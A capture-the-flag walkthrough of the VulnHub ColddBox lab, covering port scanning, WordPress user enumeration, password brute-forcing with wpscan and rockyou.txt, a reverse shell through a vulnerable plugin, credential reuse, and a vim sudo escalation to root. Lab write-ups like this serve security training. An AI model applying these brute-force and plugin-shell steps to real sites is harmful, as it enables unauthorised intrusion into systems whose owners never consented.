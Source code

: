 Link: https://www.vulnhub.com/entry/colddbox-easy,586/

## 1. Initial Website Scan using Nmap

The target was scanned using `nmap` to identify open ports and services running on the server.

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 20:48 EDT
Stats: 0:00:01 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 192.168.1.26
Host is up (0.00071s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
```

From the scan results:
- **Port 80 (HTTP)** is open, running Apache HTTP Server 2.4.18, and the website is powered by **WordPress 4.1.31**.
- **Port 4512 (SSH)** is open, running OpenSSH 7.2p2 on Ubuntu.

The website appears to be a WordPress installation named **ColddBox**.

---

## 2. Directory Bruteforce using Dirb

I used `dirb` to scan for hidden directories and files on the website. Here's the result:

![Dirb](./Image/1.png)

Among the findings, there was a potential username revealed: `C0ldd`.

![Hidden](./Image/2.png)

---

## 3. Username Enumeration using WPScan

Next, I used `wpscan` to enumerate the users on the WordPress site.

```bash
wpscan --url http://192.168.1.26 --enumerate u
```

It discovered the following users:

![User](./Image/3.png)

The users found are:
- **the cold in person**
- **hugo**
- **philip**
- **c0ldd**

---

## 4. Brute-Forcing Passwords

I attempted to brute-force the passwords for the enumerated users using the `rockyou.txt` wordlist.

```bash
wpscan --url http://192.168.1.26 -U user.txt -P /usr/share/wordlists/rockyou.txt
```

So far, I found one valid password for user **c0ldd**:

```bash
c0ldd:9876543210
```

![Password](./Image/4.png)

---

## 5. Administrator Access

Upon logging in with the credentials `c0ldd:9876543210`, I gained administrator access to the WordPress dashboard.

![Admin](./Image/5.png)

At this point, I stopped further brute-forcing attempts as admin privileges were obtained.

---

## 6. Reverse Shell via Vulnerable Plugin

Next, I uploaded a vulnerable WordPress plugin to gain a reverse shell on the server. The exploit used can be found here: [Exploit-DB 36374](https://www.exploit-db.com/exploits/36374).

Once activated, I successfully obtained a reverse shell.

![Plugin](./Image/6.png)

![Reverse Shell](./Image/7.png)

---

## 7. Privilege Escalation via Linpeas

I executed the `linpeas.sh` script to search for privilege escalation paths. It revealed a database configuration file containing the credentials `c0ldd:cybersecurity`.

I used these credentials to log in via SSH, which was successful.

![Linpeas](./Image/8.png)

---

## 8. Decoding the User Flag

I found the user flag in `user.txt`, which was encoded in base64.

```bash
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Decoded, it reads:

```bash
Felicidades, primer nivel conseguido!
```

![SSH](./Image/9.png)

---

## 9. Sudo Privileges and Root Access

Running `sudo -l` revealed that I had the ability to run several commands with sudo privileges. Using `vim`, I escalated my privileges to root.

![sudo -l](./Image/10.png)

Using the following steps in `vim`, I achieved privilege escalation:

![vim](./Image/11.png)

![vim2](./Image/12.png)

![root](./Image/13.png)

---

## 10. Obtaining the Root Flag



Finally, as root, I retrieved the root flag. It was also base64 encoded:

```bash
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Decoded, it reads:

```bash
¡Felicidades, máquina completada!
```

![root](./Image/14.png)



